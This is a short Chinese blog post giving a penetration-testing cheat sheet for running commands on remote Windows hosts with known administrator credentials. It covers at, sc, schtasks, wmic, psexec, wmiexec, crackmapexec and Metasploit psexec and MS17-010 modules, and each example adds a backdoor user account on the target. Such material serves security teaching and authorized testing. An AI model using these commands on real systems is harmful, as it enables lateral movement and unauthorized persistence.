 ```yaml
---
title: "Windows 常用远程执行命令的手段"
date: 2019-07-15T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['windows']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



windows 下远程执行命令的一些方法.

<!--more-->

## at

历史久远.

```
net use \\192.168.1.100\ipc$ 123456 /user:administrator
at \\192.168.1.100 12:00 net user test test /add
```

注意 `at` 后的命令无须加引号.

## sc

运行服务.

```
net use \\192.168.1.100\ipc$ 123456 /user:administrator
sc \\192.168.1.100 create test binPath= "cmd.exe /c net user test test /add"
sc \\192.168.1.100 start test
```

## schtasks

用于替代 `at`

```
schtasks /S 192.168.1.100 /U administrator /P 123456 /TN test /TR "cmd.exe /c net user test test /add" /SC ONCE /ST 12:00
```

## wmic

Windows Management Instrumentation Cli.

```
wmic /node:192.168.1.100 /user:administrator /password:123456 process call create "cmd.exe /c net user test test /add"
```

## psexec

会留日志.

```
psexec \\192.168.1.100 -u administrator -p 123456 net user test test /add
```

注意 `psexec` 后的命令无须加引号.


## wmiexec

wmic 的可回显版本.

```
cscript wmiexec.vbs /cmd 192.168.1.100 administrator 123456 "net user test test /add"
```

## crackmapexec

不仅限于远程执行命令.

```
crackmapexec 192.168.1.100 -u administrator -p 123456 -x "net user test test /add"
```

## Metasploit

Metasploit 中针对 psexec 的利用模块.

```
auxiliary/admin/smb/ms17_010_command
auxiliary/admin/smb/psexec_command
exploit/windows/smb/ms17_010_psexec
exploit/windows/smb/psexec
exploit/windows/smb/psexec_psh
```

简单说一下 auxiliary 和 exploit 的区别, 前者仅限于执行命令, 而后者可以反弹 Meterpreter 会话.